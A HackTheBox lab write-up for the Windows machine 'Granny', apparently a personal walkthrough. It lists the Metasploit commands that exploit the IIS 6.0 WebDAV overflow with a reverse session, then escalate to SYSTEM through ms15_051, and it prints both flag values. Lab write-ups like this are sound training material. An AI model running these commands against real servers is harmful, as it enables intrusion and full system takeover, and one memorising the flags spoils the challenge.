





# HackTheBox Walkthrough - Granny

**Machine Name**: Granny  
**Target IP**: 10.129.95.234  
**Operating System**: Windows  
**Difficulty**: Easy  

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Granny 10.129.95.234
```


**Open Ports:**
```
80/tcp open  http    Microsoft IIS httpd 6.0
```

**Interesting Findings:**
- Potentially risky HTTP methods: `TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT`
- WebDAV enabled
- Server: Microsoft-IIS/6.0

---

## 🚪 Initial Access

### 🔍 Exploit Search

- Exploit Title: Microsoft IIS - WebDav 'ScStoragePathFromUrl' Remote Overflow (Metasploit)
- ExploitDB: [41992](https://www.exploit-db.com/exploits/41992)


### 🎯 Exploitation (Metasploit)

```bash
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.234
set LHOST 10.10.14.72
run
```

✅ Meterpreter session opened.

```bash
getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

### 🔁 Privilege Escalation (Process Migration)

```bash
ps
migrate 1956  # wmiprvse.exe (NT AUTHORITY\NETWORK SERVICE)
getuid
# NT AUTHORITY\NETWORK SERVICE
```


---

## 🧨 Privilege Escalation

### 🔍 Local Exploit Suggester

```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```


**Notable Exploit Candidates:**
- `ms15_051_client_copy_image`

### 🚀 Exploiting `ms15_051_client_copy_image`

```bash
use exploit/windows/local/ms15_051_client_copy_image
set SESSION 1
set LHOST 10.10.14.72
run
getuid
# NT AUTHORITY\SYSTEM
```


✅ SYSTEM Shell acquired

---

## 🏁 Flags

### 👤 User Flag


```bash
cat C:\\Documents and Settings\\[USERNAME]\\Desktop\\user.txt
700c5dc163014e22b3e408f8703f67d1
```

### 👑 Root Flag


```bash
cat C:\\Documents and Settings\\Administrator\\Desktop\\root.txt
aa4beed1c0584445ab463a6747bd06e9
```

---

## 🧠 Summary

- Windows IIS 6.0 with WebDAV exposed → RCE using MSF exploit
- Privilege escalation via `ms15_051_client_copy_image` kernel exploit
- Gained SYSTEM access and retrieved flags
